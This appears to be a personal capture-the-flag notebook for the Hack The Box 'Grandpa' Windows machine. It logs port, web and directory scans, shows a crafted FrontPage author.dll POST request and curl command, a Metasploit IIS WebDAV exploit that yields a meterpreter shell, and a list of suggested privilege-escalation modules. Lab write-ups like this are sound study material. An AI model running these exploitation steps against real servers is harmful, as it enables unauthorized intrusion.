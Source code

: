# Grandpa 10.10.10.14 - Windows

 - __User__:
 - __Root__:

## Initial Attempt, 05/07/2020

### Enumeration

`nmap -oA grandpa -A -p- 10.10.10.14`

```powershell
Nmap scan report for 10.10.10.14
Host is up (0.030s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Thu, 07 May 2020 06:53:48 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  WebDAV type: Unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### Points-of-Interest:

 - webserver on 80, IIS v6.0 (old!)
 - default page? or mimicked default internet explorer page, anyway
 - many HTTP method warnings
 - what's WebDAV?

 ```
 Web Distributed Authoring and Versioning (WebDAV) is an extension of the Hypertext Transfer Protocol (HTTP) that allows clients to perform remote Web content authoring operations. WebDAV is defined in RFC 4918 by a working group of the Internet Engineering Task Force.

The WebDAV1 protocol provides a framework for users to create, change and move documents on a server. The most important features of the WebDAV protocol include the maintenance of properties about an author or modification date, namespace management, collections, and overwrite protection. Maintenance of properties includes such things as the creation, removal, and querying of file information. Namespace management deals with the ability to copy and move web pages within a server's namespace. Collections deal with the creation, removal, and listing of various resources. Lastly, overwrite protection handles aspects related to locking of files.
```

`nikto -host 10.10.10.14 -output nikto.txt`

```powershell
+ Server: Microsoft-IIS/6.0
+ Retrieved microsoftofficewebserver header: 5.0_Pub
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-aspnet-version header: 1.1.4322
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Retrieved dasl header: <DAV:sql>
+ Retrieved dav header: 1, 2
+ Retrieved ms-author-via header: MS-FP/4.0,DAV
+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ WebDAV enabled (UNLOCK PROPPATCH LOCK PROPFIND MKCOL COPY SEARCH listed as allowed)
+ OSVDB-13431: PROPFIND HTTP verb may show the server internal IP address: http://10.10.10.14/
+ OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
+ OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
+ OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
+ OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376. http://www.securityfocus.com/bid/2252.
+ OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST.
+ /_vti_bin/_vti_adm/admin.dll: FrontPage/SharePoint file found.
+ 8015 requests: 0 error(s) and 27 item(s) reported on remote host
```

`gobuster dir -w /usr/share/wordlists/dirb/common.txt -t 40 -u http://10.10.10.14`

```powershell
/_private (Status: 403)
/_vti_bin (Status: 301)
/_vti_bin/_vti_adm/admin.dll (Status: 200)
/_vti_bin/_vti_aut/author.dll (Status: 200)
/_vti_bin/shtml.dll (Status: 200)
/_vti_cnf (Status: 403)
/_vti_log (Status: 403)
/_vti_pvt (Status: 403)
/_vti_txt (Status: 403)
/aspnet_client (Status: 403)
/images (Status: 301)
/Images (Status: 301)
```
From the nikto scan, `_vti_inf.html`:

```html
--><!-- FrontPage Configuration Information
    FPVersion="5.0.2.6790"
    FPShtmlScriptUrl="_vti_bin/shtml.dll/_vti_rpc"
    FPAuthorScriptUrl="_vti_bin/_vti_aut/author.dll"
    FPAdminScriptUrl="_vti_bin/_vti_adm/admin.dll"
    TPScriptUrl="_vti_bin/owssvr.dll"
-->
```

## Post-Sleep Continuation

 - Found a defcon presentation from 2003? (Defcon 11): https://defcon.org/images/defcon-11/dc-11-presentations/dc-11-Shannon/presentations/dc-11-shannon.pdf

 - It explains a bit about FrontPage's request handling structure. The exploitation tool they demo'd is no longer live, though I didn't didn't too hard.

 - A detailed vuln breakdown here: https://dl.packetstormsecurity.net/9910-exploits/webfolders.txt

 - I made a local copy to make sure it persists as `packetstormsec_webfolders.txt`. Excellent overview of FrontPage's security model (lack of). This is a gold mine, summary:

 ```
 When the post to author.dll succeeds, the client will then be able to browse the
web site as if it were browsing the file system.  And since an author has full
authoring capabilities, he can also do things such as place executable files in
the _vti_bin directory or other executable directories.  Having user read,
write, and execute access is just one step away from having full admin access.
```

 - It looks like we need to intercept and modify HTTP requests to the server, and through some crafted POST requests we may be able to unlock access. This doc has some potential examples: https://github.com/deepak0401/Front-Page-Exploit

```
POST /_vti_bin/_vti_aut/author.dll HTTP/1.1
MIME-Version: 1.0
Accept: auth/sicily
Content-Length: 219
Host: 10.10.10.14
Content-Type: application/x-www-form-urlencoded
X-Vermeer-Content-Type: application/x-www-form-urlencoded
Connection: Keep-Alive

method=list+documents%3a5%2e0%2e2%2e6790&service%5fname=&listHiddenDocs=true&lis
tExplorerDocs=true&listRecurse=false&listFiles=true&listFolders=true&listLinkInf
o=false&listIncludeParent=true&listDerived=false&listBorders=false
```

```shell
curl --data "method=list+documents%3a5%2e0%2e2%2e6790&service%5fname=&listHiddenDocs=true&listExplorerDocs=true&listRecurse=falselistFiles=true&listFolders=true&listLinkInfo=false&listIncludeParent=true&listDerived=falselistBorders=false" -H "MIME-Version: 1.0" -H "Accept: auth/sicily" -H "Content-Type: application/x-www-form-urlencoded" -H "Content-Length: 219" -H "Host: 10.10.10.14" -H "X-Vermeer-Content-Type: application/x-www-form-urlencoded" -H "Connection: Keep-Alive" http://10.10.10.14/_vti_bin/_vti_aut/author.dll
```

(Didn't work)

## Day 2 - Metasploit Attempt

`windows/iis/iis_webdav_scstoragepathfromurl`

```powershell
Computer        : GRANPA
OS              : Windows .NET Server (5.2 Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```

From meterpreter `getuid` fails `[-] stdapi_sys_config_getuid: Operation failed: Access is denied.` So I dropped into a local `shell`

```powershell
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

I seem to get auto-kicked out of the local shell back to meterpreter after a few seconds. Navigating to `C:\Docs and Settings\` we can see a new user `Harry`. Access denied. Interestingly `c:\Documents and Settings\All Users\Desktop` has something called `Security Configuration Wizard.lnk`. I can access the web-root directories but so far no user-flag.

Looking for possible priv-esc solutions:

```powershell
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 30 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
All listed locals fail with `Access denied`. Let's explore migrating to a new process.